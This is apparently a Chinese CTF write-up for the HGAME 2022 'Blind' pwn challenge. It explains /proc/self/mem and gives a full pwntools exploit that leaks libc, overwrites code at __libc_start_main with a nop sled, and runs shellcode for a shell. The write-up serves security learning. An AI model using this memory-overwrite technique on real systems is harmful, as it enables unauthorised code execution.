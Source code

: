 ```yaml
---
title: 「PWN」【HGAME 2022 Week2】 Pwn Writeup WP 复现
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]

---
```


<!--truncate-->

# Blind

>  看题目简介应该是BROP的东西，也发现确实没有附件
>
>  完全没做过BROP的题，试试
>
>  [CTF-WIKI_BROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#brop)

首先先查看一下程序会干什么

![image-20220217140202100](https://cdn.novanoir.moe/img/image-20220217140202100.png)

可以看到程序首先给出了`write`的地址，但是由于原创我们不知道libc的版本，虽然也可以根据低12位来找到libc版本，但是我们选择`LibcSearcher`会更快一些

这样的话`libc_base`是很容易找到的

```python
sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))
```

接着它让我们可以打开一个文件

![image-20220217140449422](https://cdn.novanoir.moe/img/image-20220217140449422.png)

介绍一下`/proc/`的一些相关内容

## /proc/

Linux系统内核提供了一种通过/proc文件系统，在程序运行时访问内核数据，改变内核设置的机制。/proc是一种伪文件结构，也就是说是仅存在于内存中，不存在于外存中的。/proc中一般比较重要的目录是sys，net和scsi，sys目录是可写的，可以通过它来访问和修改内核的参数。

/proc中还有一些以PID命名（进程号）的进程目录，可以读取对应进程的信息。另外还有一个/self目录，用于记录本进程的信息

### /proc/self/

这就相当于一个软链接，不同的PID访问这个目录进入的实质上是不同的/proc/$(PID)/

#### /proc/self/maps

这个文件用于记录当前进程的内存映射关系，类似于gdb下的vmmap指令，通过读取该文件可以获得内存代码段基地址

#### /proc/self/mem

该文件记录的是进程的内存信息，通过修改该文件相当于直接修改进程的内存。这个文件是可读可写的，但是如果直接读的话则会报错。

需要根据`/proc/self/maps`的映射信息来修改`offset`的`val`

如果我们将一段代码写到`.text`上，则该地址的代码就变成了`disasm(val)`



因此，我们很自然地想到把shellcode写上去，但由于没有源文件，我们也不能清楚究竟程序执行到了什么地方，也就没有办法控制程序准确跳转到`shellcode`开始的地方

## Shellcode Spray 

此时如果我们把地址上下文都改成nop，并在最后添加一段`shellcode`

这样，只要程序执行到了任意`nop`所在的位置，便都可以正常执行`shellcode`

因此，我们不妨修改`__libc_start_main`开始的一大段地址都为`nop`，这能保证程序一定被`nop`覆盖

exp:

```python
import string

from pwn import *
from pwnlib.util.iters import mbruteforce
from LibcSearcher import LibcSearcher

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = remote('chuj.top', 51812)

sh.recvuntil(b' == ')
hash_code = sh.recvuntil(b"\n", drop=True).decode('UTF-8')
charset = string.ascii_letters
# print(hash_code, type(hash_code))
proof = mbruteforce(lambda x: hashlib.sha256(x.encode()).hexdigest() ==
                              hash_code, charset, 4, method='fixed')

sh.sendlineafter(b"????> ", proof.encode())

sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))

sh.sendlineafter(b">> ", b'/proc/self/mem\x00')

__libc_start_main_addr = libc_base + libc.dump('__libc_start_main')
success(">>> __libc_start_main: {}".format(hex(__libc_start_main_addr)))
sh.sendlineafter(b">> ", str(__libc_start_main_addr).encode())

payload = asm('nop') * 0x300 + asm(shellcraft.sh())
sh.sendlineafter(b">> ", payload)

sh.interactive()
```



